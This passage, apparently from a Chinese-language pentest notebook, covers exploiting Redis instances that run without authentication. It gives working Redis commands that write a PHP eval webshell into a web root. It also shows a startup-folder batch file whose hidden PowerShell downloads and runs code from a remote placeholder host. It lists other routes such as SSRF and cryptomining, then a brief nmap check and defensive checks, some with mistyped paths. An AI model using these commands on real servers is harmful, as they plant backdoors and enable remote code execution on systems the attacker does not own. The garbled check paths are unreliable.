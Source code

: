 同时也要注意系统的乱码问题

<img src="http://image.xpshuai.cn/20200525224703847_1050926657.png"/>


###### 3.低权限写入WebShell
>需要知道网站路径

```bash
config set dir /var/www/html/    # 需要知道网站的绝对路径
config set dbfilename 1.php
set 1 "<?php eval($_POST[1]); ?>"
save

# 访问webshell
```
<img src="http://image.xpshuai.cn/20200525222440751_1498038879.png"/>


###### 4.开机自启目录
>前提：redis部署在windows主机上

```bash
# 写入批处理文件到Administrator用户的开机启动目录
# 使用powershell远程下载执行我们的程序
config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
config set dbfilename add.bat
set xx "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX((New-ObjectNet.WebClient).DownloadString('http://xxx.xx.xxxx/add'))\"\r\n\r\n"
save
```



**拓展攻击方法**
- 信息泄漏(很多redis没设置密码，寻找敏感信息)
- 配合ssrf
- 本地lua代码
- 本地提权
- 等等

###### 5.写入挖矿进程


###### nmap检测
```bash
nmap -p 6379 --script redis-info 192.168.0.100
#地址:https://svn.nmap.org/nmap/scripts/redis-info.nse
```
<img src="http://image.xpshuai.cn/20200525225557672_1832619508.png"/>


######  安全检查
```bash
#1.查看redis运行的用户权限
ps -aux |grep redis

#2.查看所有用户ssh验证文件是否异常
/user/.ssh/authorized_keys

#3.查看crontab
/var/spoof/cron/

#4.查看crontab的日志
tail /var/log/cron
```
